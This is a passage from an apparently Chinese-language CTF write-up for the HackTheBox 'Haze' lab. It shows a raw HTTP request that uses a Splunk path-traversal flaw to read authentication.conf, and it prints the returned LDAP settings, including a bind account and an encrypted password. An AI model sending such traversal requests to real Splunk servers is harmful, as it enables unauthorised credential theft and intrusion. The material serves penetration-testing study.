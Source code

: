 - [Splunk目录结构及常用配置文件\_如何查看splunk的家目录-CSDN博客](https://blog.csdn.net/qq_45800977/article/details/132626110)

- [List of configuration files - Splunk Documentation](https://docs.splunk.com/Documentation/Splunk/9.4.1/Admin/Listofconfigurationfiles)

可以查看到**authentication.conf**的内容

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf HTTP/1.1
Host: haze.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

---------------------

[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

